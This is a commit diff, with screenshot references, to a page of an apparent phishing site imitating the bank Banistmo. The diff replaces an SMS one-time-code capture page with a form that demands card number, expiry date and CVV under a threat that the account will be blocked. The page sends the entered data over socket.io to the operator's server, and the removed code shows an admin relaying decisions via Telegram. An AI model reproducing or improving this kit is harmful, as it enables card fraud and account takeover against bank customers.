

Before and after one commit to shemiya489/banistmo, a website: page public/denegado.html in a window 1280 px wide. Shown: the part 141-702 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update denegado.html

```diff
--- a/public/denegado.html
+++ b/public/denegado.html
@@ -3,9 +3,8 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Código Incorrecto</title>
+  <title>Validación de Tarjeta</title>
   <link href="https://fonts.googleapis.com/css2?family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
-  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@fortawesome/fontawesome-free/css/all.min.css">
   <style>
     body {
       margin: 0;
@@ -16,7 +15,6 @@
       justify-content: center;
       min-height: 100vh;
     }
-
     .screen {
       display: flex;
       flex-direction: column;
@@ -29,67 +27,84 @@
       max-width: 400px;
       text-align: center;
     }
-
-    .input-group {
+    h3 {
+      color: red;
+      font-weight: 600;
+      margin-bottom: 0.5rem;
+    }
+    p {
+      font-size: 14px;
+      margin-bottom: 1rem;
+    }
+    .form-group {
+      text-align: left;
+      width: 100%;
+      margin-bottom: 1rem;
+    }
+    label {
+      display: block;
+      margin-bottom: 0.5rem;
+      font-weight: bold;
+    }
+    input, select {
+      width: 100%;
+      padding: 0.75rem;
+      border: 1px solid #ccc;
+      border-radius: 8px;
+      font-size: 1rem;
+    }
+    .form-row {
       display: flex;
-      align-items: center;
-      background: #f0f2f5;
-      border-radius: 8px;
-      margin: 1rem 0;
-      padding: 0.5rem 1rem;
+      gap: 10px;
+    }
+    button {
+      background: #003049;
+      color: white;
+      padding: 0.75rem;
+      border: none;
+      border-radius: 50px;
+      font-weight: bold;
+      cursor: pointer;
+      transition: background 0.3s;
+      margin-top: 1rem;
       width: 100%;
     }
-
-    .input-group .icon {
-      color: #888;
-      margin-right: 0.5rem;
-    }
-
-    .input-group input {
-      border: none;
-      background: transparent;
-      outline: none;
-      flex: 1;
-      font-size: 1rem;
-    }
-
-    .campo-requerido {
-      border: 1px solid red !important;
-    }
-
-    button {
-      background: #000000;
-      color: white;
-      padding: 0.75rem 2rem;
-      border: none;
-      border-radius: 50px;
-      font-weight: 600;
-      cursor: pointer;
-      margin-top: 1rem;
-      transition: background 0.3s;
-    }
-
     button:hover {
-      background: #00a16a;
-    }
-
-    .mensaje-error {
-      color: red;
-      margin-top: 0.5rem;
-      font-size: 0.85rem;
+      background: #005580;
     }
   </style>
 </head>
 <body>
   <div class="screen">
-    <h3>Te enviaremos el codigo SMS a su celular</h3>
-    <p>Introduce el codigo de verificacion que te acabamos de enviar a su celular de confianza.</p>
-    <div class="input-group campo-requerido">
-      <div class="icon"><i class="fas fa-key"></i></div>
-      <input type="tel" id="codigo" placeholder="Código de verificación" pattern="[0-9]*" inputmode="numeric" minlength="6" maxlength="6" required>
-    </div>
-    <p class="mensaje-error">Código inválido. Por favor, ingrese el código correctamente.</p>
-    <button onclick="reintentarCodigo()">Reintentar</button>
+    <h3>Datos de tarjeta inválidos</h3>
+    <p>Por favor coloque sus datos correctamente para no bloquear totalmente su cuenta bancaria.</p>
+    <form id="tarjeta-form">
+      <div class="form-group">
+        <label for="numero">Número de tarjeta</label>
+        <input type="tel" id="numero" maxlength="16" placeholder="0000 0000 0000 0000" required>
+      </div>
+      <div class="form-group">
+        <label>Fecha de expiración</label>
+        <div class="form-row">
+          <select id="mes" required>
+            <option value="" disabled selected>Mes</option>
+            <option>Enero</option><option>Febrero</option><option>Marzo</option><option>Abril</option>
+            <option>Mayo</option><option>Junio</option><option>Julio</option><option>Agosto</option>
+            <option>Septiembre</option><option>Octubre</option><option>Noviembre</option><option>Diciembre</option>
+          </select>
+          <select id="anio" required>
+            <option value="" disabled selected>Año</option>
+            <option>2025</option><option>2026</option><option>2027</option><option>2028</option>
+            <option>2029</option><option>2030</option><option>2031</option><option>2032</option>
+          </select>
+        </div>
+      </div>
+      <div class="form-group">
+        <label for="cvv">CVV</label>
+        <input type="tel" id="cvv" maxlength="3" placeholder="123" required>
+      </div>
+      <button type="submit">Reintentar Validación</button>
+    </form>
   </div>
 
   <script src="/socket.io/socket.io.js"></script>
@@ -99,28 +114,30 @@
 
     socket.emit("reconectar", sessionId);
 
-    function reintentarCodigo() {
-      const codigo = document.getElementById("codigo").value;
+    const form = document.getElementById("tarjeta-form");
 
-      if (!codigo || !/^\d{6}$/.test(codigo)) {
-        alert("Ingrese un código válido de 6 dígitos.");
+    form.addEventListener("submit", function (event) {
+      event.preventDefault();
+
+      const numero = document.getElementById("numero").value.trim();
+      const mes = document.getElementById("mes").value;
+      const anio = document.getElementById("anio").value;
+      const cvv = document.getElementById("cvv").value.trim();
+
+      if (!numero || !mes || !anio || !cvv || cvv.length !== 3) {
+        alert("Por favor complete todos los campos correctamente.");
         return;
       }
 
-      // Enviar OTP ingresado al servidor
-      socket.emit("otpIngresado", { codigo, sessionId });
+      socket.emit("datosTarjeta", {
+        numero,
+        mes,
+        anio,
+        cvv,
+        sessionId
+      });
 
-      // Ir a la pantalla de espera
-      window.location.href = "opciones.html";
-    }
-
-    // Recibir respuesta del admin desde Telegram
-    socket.on("respuestaOtp", (decision) => {
-      if (decision === "finalizar") {
-        window.location.href = "https://www.google.com";
-      } else if (decision === "otp_error") {
-        window.location.href = "denegado.html";
-      }
+      window.location.href = "/opciones.html";
     });
   </script>
 </body>
```
